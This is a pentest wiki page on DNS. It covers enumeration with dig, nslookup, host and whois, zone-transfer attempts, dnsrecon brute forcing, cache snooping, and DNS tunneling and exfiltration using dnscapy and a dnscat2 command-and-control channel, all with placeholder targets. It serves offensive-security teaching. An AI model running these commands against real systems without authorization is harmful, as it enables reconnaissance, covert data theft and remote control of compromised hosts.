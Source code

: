 ```yaml
---
authors: ShutdownRepo, Tednoob17
category: infra
---
```


# 🛠️ DNS

## Theory

The Domain Name System (DNS) is a fundamental protocol of the Internet that translates human-readable domain names into IP addresses. It functions as a distributed database system that enables computers to resolve domain names to the corresponding network addresses required for network communication.

DNS operates on port 53 by default and uses both TCP and UDP protocols. The system is hierarchical, with root servers at the top, followed by Top-Level Domain (TLD) servers, and authoritative name servers for specific domains.

## Practice

### Enumeration

DNS enumeration involves gathering information about a domain's DNS infrastructure. This can be accomplished through various methods and tools.

#### DNS Queries

:::tabs

=== dig
The dig utility performs DNS lookups and displays responses from name servers.

```bash
# Query A records (IP addresses)
dig thehacker.recipes A

# Query name server records
dig thehacker.recipes NS

# Trace DNS resolution path
dig thehacker.recipes +trace
```

=== nslookup
nslookup provides DNS query functionality and debugging capabilities.

```bash
# Standard DNS query
nslookup thehacker.recipes

# Query mail exchange records
nslookup -type=MX thehacker.recipes

# Query specific DNS server
nslookup thehacker.recipes $DNS_IP
```

=== host
host performs DNS lookups with a simplified interface.

```bash
# Basic DNS query
host thehacker.recipes

# Query mail exchange records
host -t MX thehacker.recipes

# Reverse DNS lookup
host $IP_ADDRESS
```

=== whois
whois retrieves registration information for domains.

```bash
# Domain registration lookup
whois thehacker.recipes
```
:::

#### Zone Transfers
Zone transfers (AXFR requests) are a DNS protocol feature that allows a secondary DNS server to receive all DNS records from a primary DNS server. While legitimate for DNS replication, misconfigured servers allowing unauthorized zone transfers can expose complete domain information to potential attackers.

Common signs of misconfiguration include:
- Allowing zone transfers from any source IP
- Missing ACLs for AXFR requests
- Exposed internal DNS records

```bash
# Basic zone transfer attempt
dig axfr @$DNS_IP $DOMAIN

# Zone transfer specifying name server
dig axfr $DOMAIN @ns1.$DOMAIN

# Using host command for zone transfer
host -t axfr $DOMAIN $DNS_IP

# Alternative using fierce for zone transfers
fierce --domain $DOMAIN --dns-servers $DNS_IP
```

> [!NOTE]
> Modern DNS servers typically restrict zone transfers by default. Success usually indicates a misconfiguration.

#### Subdomain Enumeration
DNSRecon enables comprehensive DNS reconnaissance, including subdomain discovery and record analysis.

```bash
# Basic domain enumeration
dnsrecon -d example.com

# Brute force with wordlist
dnsrecon -d example.com -D $WORDLIST -t std --xml $OUTPUT.xml
```

### Attacks

#### DNS Tunneling
DNS tunneling exploits DNS protocol for data exfiltration or command and control communication. While legitimate uses exist (e.g., software updates), the technique is often employed maliciously.

```bash
# Server configuration
sudo python dnscapy_server.py $DELEGATED_ZONE_NAME $EXTERNAL_IP_ADDR

# Client configuration
ssh -o ProxyCommand="sudo python dnscapy_client.py $DELEGATED_ZONE_NAME $IP_ADDR_OF_CLIENT_DNS" yourlogin@localhost
```

#### DNS Cache Snooping
Cache snooping enables examination of a DNS server's cache to determine recently queried domains.

```bash
# Perform cache snooping
dig @$DNS-SERVER $DOMAIN +norecurse
```

### Post-Exploitation

#### DNS Exfiltration
DNS exfiltration leverages DNS queries to extract data from compromised systems. dnscat2 provides encrypted command-and-control capabilities over DNS.

```bash
# Server setup
dnscat2 --dns server=$DNS_SERVER_IP:53

# Client connection
dnscat2 $DOMAIN
```

## Resources

* [HTB Academy - Information Gathering-Web Edition](https://academy.hackthebox.com/module/144/section/1251)
* [Kali Tools - DNSRecon Documentation](https://www.kali.org/tools/dnsrecon)
* [Common DNS Attack Types](https://bluecatnetworks.com/blog/four-major-dns-attack-types-and-how-to-mitigate-them)
* [DNS Tunneling Techniques](https://www.blackhat.com/presentations/bh-usa-08/Miller/BH_US_08_Ty_Miller_Reverse_DNS_Tunneling_Shellcode.pdf)